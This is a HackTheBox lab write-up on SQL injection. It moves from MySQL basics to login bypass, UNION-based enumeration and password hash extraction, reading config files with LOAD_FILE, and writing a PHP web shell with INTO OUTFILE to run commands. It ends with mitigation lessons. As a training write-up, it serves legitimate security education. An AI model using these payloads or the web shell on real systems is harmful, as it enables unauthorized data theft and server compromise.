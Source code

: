 # HTB-Writeup-SQLInjection
HackTheBox Writeup: SQL Injections - exploitation and mitigation techniques like enumeration, UNION injections, file reading/writing, and RCE for offensive security.

By Ramyar Daneshgar 

## Background

SQL injection is a code injection technique that exploits vulnerabilities in a web application's interaction with its database. It occurs when an attacker manipulates user input to execute arbitrary SQL queries, leading to unauthorized access to data, administrative control, or even remote code execution.

**Types of SQL Injection:**
1. **Classic SQL Injection**: Directly retrieves data by injecting SQL queries.
2. **Union-Based SQL Injection**: Combines results from multiple queries using the `UNION` operator.
3. **Error-Based SQL Injection**: Exploits error messages to gain insights into the database structure.
4. **Blind SQL Injection**: No direct feedback; relies on true/false conditions or time delays.
5. **Time-Based Blind SQL Injection**: Leverages functions like `SLEEP()` to infer results.
6. **Out-of-Band SQL Injection**: Exploits secondary communication channels, like DNS requests.


#### **Intro to MySQL**
**Objective**: Identify the first database in the MySQL instance.

1. **Connect to the MySQL Server**:  
   To connect, I used the `mysql` client with the provided credentials. The `-h` specifies the host, `-P` defines the port, and `-u` and `-p` provide the username and password.
   ```bash
   mysql -h STMIP -P STMPO -u root -ppassword
   ```
   **Rationale**: This establishes a connection to the target database server.

2. **List Databases**:  
   Using the `SHOW databases;` query, I enumerated all databases in the server.
   ```sql
   SHOW databases;
   ```
   **Result**: The output displayed databases such as `employees` and `mysql`.

**Key Takeaway**: Always enumerate databases first to identify potential targets.

---

#### **SQL Statements**
**Objective**: Retrieve the department number for the "Development" department.

1. **Switch to the Target Database**:
   I used the `USE` command to switch to the `employees` database.
   ```sql
   USE employees;
   ```

2. **List Tables**:
   To understand the database's structure, I listed all tables.
   ```sql
   SHOW TABLES;
   ```

3. **Understand Table Schema**:
   I inspected the structure of the `departments` table to identify relevant columns.
   ```sql
   DESCRIBE departments;
   ```

4. **Query Specific Data**:
   Using a `SELECT` statement, I filtered the table for rows where `dept_name = "Development"`.
   ```sql
   SELECT dept_no FROM departments WHERE dept_name="Development";
   ```

**Key Takeaway**: Schema inspection is essential for crafting precise queries.

---

#### **Query Results**
**Objective**: Identify the last name of the employee based on specific conditions.

1. **Inspect Table Structure**:
   I used `DESCRIBE employees;` to confirm the presence of relevant columns (`first_name`, `last_name`, and `hire_date`).
   ```sql
   DESCRIBE employees;
   ```

2. **Query with Conditions**:
   I filtered for employees whose first name starts with "Bar" and hire date is `1990-01-01` using the `LIKE` operator and exact match.
   ```sql
   SELECT last_name FROM employees WHERE first_name LIKE 'Bar%' AND hire_date='1990-01-01';
   ```

**Key Takeaway**: Use filtering operators like `LIKE` and `AND` for precision in multi-condition queries.

---

#### **SQL Operators**
**Objective**: Count records where `emp_no > 10000` or title does not include "engineer."

1. **Inspect Table Structure**:
   I analyzed the schema of the `titles` table.
   ```sql
   DESCRIBE titles;
   ```

2. **Count Records with Conditions**:
   Using the `COUNT()` function, I queried the number of rows satisfying either condition.
   ```sql
   SELECT COUNT(*) FROM titles WHERE emp_no > 10000 OR title NOT LIKE '%engineer%';
   ```

**Key Takeaway**: Aggregate functions like `COUNT()` simplify data analysis without fetching full datasets.

---

#### **Subverting Query Logic**
**Objective**: Bypass login authentication.

1. **Inject Malicious Logic**:
   By injecting `' OR '1' = '1' -- -`, I bypassed the authentication mechanism. This payload always evaluates to true.
   ```sql
   tom' OR '1' = '1' -- -
   ```

**Key Takeaway**: Input validation is critical to prevent unauthorized access.

---

#### **Union Injection**
**Objective**: Use a Union injection to extract information.

1. **Determine Number of Columns**:
   I tested queries with varying numbers of columns until finding the correct match (4 columns).
   ```sql
   ' UNION SELECT 1-- -
   ' UNION SELECT 1,2-- -
   ' UNION SELECT 1,2,3,4-- -
   ```

2. **Inject Data Extraction Function**:
   Injecting `user()` into the query retrieved the database user.
   ```sql
   ' UNION SELECT 1,user(),3,4-- -
   ```

**Key Takeaway**: Matching column counts in Union injections is vital for successful exploitation.

---

#### **Database Enumeration**
**Objective**: Find the password hash for `newuser` in the `users` table.

1. **Enumerate Columns**:
   I queried the `INFORMATION_SCHEMA.COLUMNS` table to list column names in the `users` table.
   ```sql
   foo' UNION SELECT 1,TABLE_SCHEMA,TABLE_NAME,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'-- -
   ```

2. **Extract Data**:
   I used a Union injection to retrieve the username and password hash.
   ```sql
   foo' UNION SELECT 1,username,password,4 FROM ilfreight.users-- -
   ```

**Key Takeaway**: The `INFORMATION_SCHEMA` database is a critical resource for understanding database structures.

---

#### **Reading Files**
**Objective**: Extract the database password.

1. **Verify File Privileges**:
   I checked if the current user (`root`) had the `FILE` privilege.
   ```sql
   foo' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
   ```

2. **Load Configuration File**:
   Using `LOAD_FILE()`, I read the contents of `config.php` to extract the database password.
   ```sql
   foo' UNION SELECT 1,LOAD_FILE("/var/www/html/config.php"),3,4-- -
   ```

**Key Takeaway**: Misconfigured privileges can expose sensitive files.

---

#### **Writing Files**
**Objective**: Write a web shell for remote code execution.

1. **Check File Write Permissions**:
   I verified that `secure_file_priv` was unset, allowing unrestricted file writes.
   ```sql
   foo' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -
   ```

2. **Write the Web Shell**:
   I used `INTO OUTFILE` to write a PHP web shell to the web root directory.
   ```sql
   foo' UNION SELECT "",'<?php system($_REQUEST["cmd"]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -
   ```

3. **Execute Commands**:
   Using the shell, I executed commands to retrieve the flag.
   ```shell
   http://STMIP:STMPO/shell.php?cmd=cat%20../flag.txt
   ```

**Key Takeaway**: File write capabilities can escalate an SQL injection vulnerability into a full system compromise.

---

### Lessons Learned
1. **Input Validation**: Never trust user input. Validate all inputs against strict rules, e.g., using regular expressions or input sanitization functions.
   - **Use Parameterized Queries**: Replace dynamic queries with parameterized ones to prevent SQL injection entirely.

2. **Principle of Least Privilege**: Restrict database users to the minimal permissions required for their role. For example:
   - The web application should not have `FILE` or superuser privileges.

3. **Secure Configuration**: Always set `secure_file_priv` to a specific directory or `NULL` to prevent unrestricted file reads/writes.

4. **Error Suppression**: Avoid exposing database error messages to users as they can leak sensitive information about the database structure.

5. **Regular Audits**: Conduct regular code and configuration audits to identify potential vulnerabilities before attackers can exploit them.

